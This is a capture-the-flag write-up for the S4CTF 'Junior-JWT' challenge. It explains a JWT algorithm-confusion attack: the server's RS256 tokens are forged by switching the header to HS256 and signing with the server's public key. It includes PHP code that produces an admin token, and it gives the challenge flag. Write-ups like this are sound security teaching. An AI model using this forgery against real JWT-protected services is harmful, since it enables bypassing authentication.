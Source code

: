 # Junior-JWT

## Description

Just one of [them](http://junior-jwt.peykar.io)!

## Files provided

A zip file containing a PHP page source code. (You can see extracted files in [source](source/) folder in the repo)

## Writeup

Looking at the source code, we see a class called `JWT` that provides `encode` and `decode` methods and also some helper functions for URL decoding.

Also there is a `main` function that runs on startup. It creates `jwt` cookie with `role: guest` if it's not present.
if The cookie is present it checks the `role` attribute, if the role is equal to `admin` it shows the flag, otherwise it shows the source code.

So we should find a way to modify role value to `admin` in the jwt cookie but we don't have the jwt secret key. So we should go for potential bugs in the jwt methods.

There can be several famous [bugs](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) in jwt custom libraries. The first bug I tried was the `none algorithm`. But at line 40 the decode function checks for the none algorithm, So this is not the solution.

As we see in `main` function, the jwt is signed with `RS256` algorithm by default. RSA uses public and private key (Asymmetric). The JWT is signed using private key and verified using public key. We can see the public key in the source code but we need the private key for signing our modified jwt.

### The Idea

If we could find a way that server verifies the jwt using the same key that is jwt is signed with, we could easily change the role field and sign our jwt using the public key.

In `HS256` algorithm, that is a symmetric algorithm, the jwt should be signed and verified using the same secret key. So, if we change the jwt algorithm to `HS256`, change the `role` value to `admin` and sign it with the public key, the server will also verify the jwt using public key.

## Solution

For creating the payload, we can use the website's source code.

We should just change the main function as below (changing role to `admin` and changing `RS256` to `HS256`):

```
function main()
{

    $publikKey  = '-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEApPRW0nXMoQyN8GzVCHaW
nWyq00omHh/o7AXEJvbpVBk5HTWLt+Zdj1aK1JFWU5lPeMSoXkf7WJiqoGgwVblX
Rq2dSIIaNBFSjomS1Mcw1Tyx+q9Y6CPJGdwAMEMH5uKhGkgV9OrFQcHoozLAvzFl
BneqmTO9+V1FKEuHWHItvdP1em7UiUnZ7JXb13L4IbZVGPNgDVf0GoButIlVo1+T
pMZcBHNV0ndGZg0e6qTCp5m9yMWcH697Rt2FRN4fgJpYBknBs8UrAeCczRkk6037
N+c4IM+St6KZNqg+4ZlRZC+V9zOBSTkrXXN/CXRUiIQMgmyit5zbEpN8PUY6VPzk
zVI9FbkB0nb+Dp04VPRWeeV1IKPZk2DuSOALh9ZacbEQ8Spuua6nxZ5gCSve7TL7
r9xg8ml5zZXAw7l8WoHkyy2ocPy0OL+PWFvUar59epfPUQZmRE08yVrlvy+WXFC2
dbFxD80tPgbcjJbKRGGv1uOx/3Z2HrXHoOslVmV87rgWfxBaJjrSsSY1fKLYJLnk
FKJd6eSLDYzTAczbMiov8F9ovMw4/juWZy2s4QOCdXp7byKOuQUJ+HSiZiNiyjTk
XaA5oGEF/FIxAMRbaEd/YSsE7ASMxS4mhyIAGFvqK8YZ+xqEAbNlT4zK+dAAC3mL
I/VyHBAlgHRxEiRE860DhfcCAwEAAQ==
-----END PUBLIC KEY-----';

    $issuedAt = new DateTimeImmutable();
    $data = [
        "role" => "admin",
        "iat" => $issuedAt->getTimestamp(),
        "nbf" => $issuedAt->getTimestamp()
    ];

    $token = JWT::encode($data, $publikKey, 'HS256');

    echo $token;

}

```

It will print the the JWT payload that we should put in `jwt` cookie and request `GET /` to get the flag.

## Flag

`S4CTF{7h3r3__iS_s733L_a_bUnch3__0u7_th3r3!!!}`
